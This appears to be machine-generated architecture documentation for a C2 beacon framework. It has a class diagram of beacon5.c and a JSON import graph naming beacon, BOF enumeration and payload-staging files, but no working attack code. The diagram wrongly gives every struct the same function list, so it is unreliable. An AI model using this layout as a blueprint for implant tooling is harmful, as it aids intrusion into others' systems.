

#### `include/aes.h`, `include/beacon.h`, `include/beacon_common.c`



#### `include/beacon_common.h`



#### `include/cJSON.c`, `include/cJSON.h`



#### `include/config.h`



#### `include/config_autogen.h`



#### `legacy/beacon3.c`



#### `legacy/beacon5.c`

```mermaid
classDiagram
  direction LR
  class beacon5_c_MemoryStruct {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
  class beacon5_c_peer_t {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
  class beacon5_c_mesh_msg_t {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
  class beacon5_c_Trampoline {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
  class beacon5_c_SymbolResolver {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
  class beacon5_c_TrampolineCache {
    <<struct>>
    +__attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...
    +BeaconPrintf(int type, const char *fmt, ...)
    +BeaconOutput(int type, const char *data, int len)
    +create_trampoline(void *target)
    +cleanup_trampolines(void)
    +get_or_create_trampoline(void *target)
    +WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)
    +https_request(const char *url, const char *method, const char *post_data)
    +base64_encode(const unsigned char *input, int len)
    +base64_decode(const char *input, int *len)
  }
```

---

## Code Property Graph

Machine-readable Code Property Graph (CPG) in JSON-LD format. This block allows AI agents to parse the full structural graph without additional file reads. Compatible with GraphRAG pipelines.

```json
{"@context": "https://schema.org", "analysis": {"communities": [{"cohesion": 0.895, "id": 0, "label": "legacy", "size": 20}, {"cohesion": 1.0, "id": 1, "label": "c2", "size": 17}, {"cohesion": 1.0, "id": 2, "label": "bof/include", "size": 7}, {"cohesion": 0.625, "id": 3, "label": "include: aes", "size": 6}, {"cohesion": 0.833, "id": 4, "label": "include: config", "size": 6}, {"cohesion": 1.0, "id": 5, "label": "mutants/src: async_i_o_for_beacon", "size": 3}, {"cohesion": 1.0, "id": 6, "label": "mutants/src: beacon_common.c_extraction", "size": 3}, {"cohesion": 1.0, "id": 7, "label": "mutants/src: beacon_heartbeat___health_endpoint", "size": 3}, {"cohesion": 1.0, "id": 8, "label": "mutants/src: bof_api_versioning", "size": 3}, {"cohesion": 1.0, "id": 9, "label": "mutants/src: bof_path_traversal_hardening", "size": 3}, {"cohesion": 1.0, "id": 10, "label": "mutants/src: bof_streaming_(large_outputs)", "size": 3}, {"cohesion": 1.0, "id": 11, "label": "mutants/src: c2_rest_api", "size": 3}, {"cohesion": 1.0, "id": 12, "label": "mutants/src: certificate_pinning___tofu", "size": 3}, {"cohesion": 1.0, "id": 13, "label": "mutants/src: command_execution_via_execve", "size": 3}, {"cohesion": 1.0, "id": 14, "label": "mutants/src: containerized_build_+_sbom", "size": 3}, {"cohesion": 1.0, "id": 15, "label": "mutants/src: hkdf_key_derivation", "size": 3}, {"cohesion": 1.0, "id": 16, "label": "mutants/src: iv_generation_with_entropy_verification", "size": 3}, {"cohesion": 1.0, "id": 17, "label": "mutants/src: mutation_testing_integration", "size": 3}, {"cohesion": 1.0, "id": 18, "label": "mutants/src: pre-commit_+_ci_hardening", "size": 3}, {"cohesion": 1.0, "id": 19, "label": "mutants/src: replay_protection", "size": 3}, {"cohesion": 1.0, "id": 20, "label": "mutants/src: socks5___http_proxy_support", "size": 3}, {"cohesion": 1.0, "id": 21, "label": "mutants/src: structured_jsonl_logging", "size": 3}, {"cohesion": 1.0, "id": 22, "label": "mutants/src: tls_client_certificate_authentication", "size": 3}, {"cohesion": 1.0, "id": 23, "label": "mutants/src: unified_config_schema", "size": 3}, {"cohesion": 1.0, "id": 24, "label": "include: config_autogen", "size": 2}], "god_nodes": [{"node_id": "cJSON.h", "score": 28.0}, {"node_id": "c2/server.py", "score": 27.2}, {"node_id": "aes.h", "score": 22.1}, {"node_id": "include/beacon_common.h", "score": 17.8}, {"node_id": "include/cJSON.c", "score": 16.5}, {"node_id": "include/config_py.py", "score": 16.3}, {"node_id": "beacon.h", "score": 15.3}, {"node_id": "cJSON.c", "score": 14.5}, {"node_id": "include/config.h", "score": 14.1}, {"node_id": "bof/include/syscalls.h", "score": 13.8}], "surprising_connections": [{"hops": 7, "source": "bof.c", "target": "include/config.c"}, {"hops": 7, "source": "bof.c", "target": "mutants/tests/config_harness.c"}, {"hops": 7, "source": "bof.c", "target": "tests/config_harness.c"}, {"hops": 7, "source": "bof.c", "target": "tests/test_certificate_pinning_c.c"}, {"hops": 7, "source": "bof.c", "target": "tests/test_hkdf_key_derivation_c.c"}]}, "edges": [{"confidence": "EXTRACTED", "relation": "imports", "source": "aes.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "aes.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "aes.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "aes.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "app.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacon.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacon.h", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v1/beacon.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "pthread.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v2/beacon.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "time.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "pwd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "openssl/rand.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "beacons/v3/beacon.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/cat/bof.c", "target": "beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/cat/bof.c", "target": "syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/include/beacon_api.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/include/beacon_api.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/include/beacon_api.h", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/include/syscalls.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/is_sudo/bof.c", "target": "beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/is_sudo/bof.c", "target": "syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/suid_enum/bof.c", "target": "beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/suid_enum/bof.c", "target": "syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/userenum/bof.c", "target": "beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/userenum/bof.c", "target": "syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/whoami/bof.c", "target": "beacon_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof/whoami/bof.c", "target": "syscalls.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "bof.c", "target": "beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/server.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "c2/stage_payload.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "math.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "limits.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "ctype.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "float.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "locale.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "cJSON.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "config/generate_parsers.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "config/generate_parsers.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "config/generate_parsers.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "config/generate_parsers.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contract_agent.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "gopher_c2.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.c", "target": "aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.c", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/aes_cfb.h", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon.h", "target": "stdint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon.h", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "aes.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "cJSON.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "sys/mman.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "sys/wait.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "elf.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "dlfcn.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "fcntl.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "netdb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "include/beacon_common.c", "target": "net/if.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 